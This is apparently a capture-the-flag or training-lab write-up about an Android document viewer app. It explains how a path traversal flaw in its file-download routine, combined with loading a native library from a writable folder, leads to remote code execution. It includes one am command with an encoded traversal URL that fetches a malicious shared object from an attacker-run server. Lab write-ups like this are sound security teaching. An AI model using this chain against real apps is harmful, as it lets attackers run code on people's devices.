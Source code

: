 # Analysis
1. The app is load and render PDF file that chosen by the user.

2. The application `MainActivity.onCreate` is call 2 function.
![mainactivity](images/main.png)

3. The `handleIntent` is make the application able to received incoming `Intent` with action `android.intent.action.VIEW` and when the user try open PDF file from file manager or other app, this app will able to chose as pdf viewer.
![handleIntent](images/handleIntent.png)

4. The `loadProLibrary` is loaded shared object `libdocviewer_pro.so` inside app path `/data/data/com.mobilehackinglab.documentviewer/files/native-libraries/` and if the shared object is successfully loaded, it will set `proFeaturesEnabled` to `true`.
![loadProLibrary](images/load%20pro%20lib.png)

5. Inside the shared object `libdocviewer_pro.so`, we assumed there is a function named `initProFeatures` that will be called if `libdocviewer_pro.so` is successfully loaded, because there is constructor for this function but not exists in any class.
![native function initProFeatures](images/initProFeatures.png)

6. `handleIntent` function is called function `copyFileFromUri` from class `CopyUtil`, this function is to download file from Uri provided from `Intent` with specified content type `application/pdf` and saved as "download.pdf" if at the end url is not a filename with extension in it.
![handleIntent copyFileFromUri](images/handle%20intent%20and%20load.png)
![copyFileFromUri](images/copyFileFromUrl%20vuln%20code.png)

7. Inside `copyFileFromUri` is called function `CopyUtil$Companion$copyFileFromUri$1` which will created directory if the directory from uri provided from `Intent` is not exists.
![create directory](images/function%20mkdirs.png)

8. Function `copyFileFromUri` is vulnerable to `path traversal` becaused it's not sanitized the Uri path that provided user using `Intent`, which allow attacker to craft uri to download file malicious file.
![vuln path traversal](images/path%20traversal%20vuln.png)

9. Based on the analysis, we know to gained RCE is by creating malicious shared object and download the shared object file using function `copyFileFromUri` which can triggered using `Intent` and write to the path that will loaded by function `loadProLibrary.so`

# Exploitation
1. First time run the application, we can see the application is try to load library `libdocviewer_pro.so`.
![load lib not found](images/load%20pro%20so%20not%20found.png)

2. First created our malicious shared object in `Android Studio` with the code c++ as below.
![android cpp](images/android%20cpp.png)
![android cmake](images/android%20cmake.png)

3. Build the shared object by navigate to Build > Make Project and copy the builded so file into folder `www`.

4. To trigger `Intent` we use `am` command with malicious url that exploit the path traversal.
```sh
am start -a android.intent.action.VIEW -d "http://192.168.188.200:5000/..%2f..%2f..%2f..%2f..%2f..%2f..%2fdata%2fdata%2fcom.mobilehackinglab.documentviewer%2ffiles%2fnative-libraries%2farm64-v8a%2flibdocviewer_pro.so" -t application/pdf
```

5. But first, we create an HTTP server using Python Flask that returns the malicious shared object we just created, regardless of the path requested by the client.
![python server](images/run%20web%20server.png)

6. After run the `am` command in adb shell, chose the app.
![Chose app](images/chose%20app.png)

7. After successfully download our malicious shared object, in adb log will show error render pdf file that navigated to our exploit shared object path, which mean the application is success to download the file and write to path based on our payload.
![incoming http request](images/web%20server%20received%20request.png)
![error render](images/error%20render.png)

8. Rerun the application, and we'll see our malicious shared object is successfully loaded.
![malicous so loaded](images/malicious%20app%20loaded.png)

9. And check in app path and the system command successfully executed and created file based on our code for the shared object file.

   ![gained RCE](images/success%20rce.png)
